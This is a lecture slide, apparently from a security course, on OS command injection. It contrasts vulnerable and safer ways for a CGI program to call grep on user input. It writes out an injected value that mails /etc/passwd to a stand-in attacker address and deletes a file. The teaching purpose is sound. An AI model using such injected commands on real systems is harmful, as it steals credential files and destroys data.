

# OS Command Injection Attacks
Example: CGI program executes a grep command over a server file using the user input as parameter
Implementation 1: system("grep $exp phonebook.txt");
By providing foo; mail hacker@evil.com < /etc/passwd; rm  one can obtain the password file and delete the text file
Implementation 2: system("grep \"$exp\" phonebook.txt");
By providing "foo; mail hacker@evil.com < /etc/passwd; rm " one can steal the password file and delete the text file
Implementation 3: system("grep", "e", $exp, "phonebook.txt");
In this case the execution is similar to an execve() and therefore more secure (no shell parsing involved)